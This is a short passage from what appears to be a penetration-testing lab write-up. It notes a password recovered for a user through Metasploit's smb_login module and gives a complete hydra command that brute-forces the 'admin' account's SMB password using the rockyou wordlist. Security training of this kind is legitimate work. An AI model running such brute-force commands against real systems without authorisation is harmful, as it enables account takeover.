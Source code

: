 ![metasploit smb_login](.gitbook/assets/image-20230215101433193.png)

> 📌 Jane's password is `abc123`

### hydra

- Use [`hydra` tool](https://www.kali.org/tools/hydra/) to find *admin* user password

> [**`hydra`**](https://github.com/vanhauser-thc/thc-hydra) - tool to guess/crack valid login/password pairs

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.174.58.3 smb
```
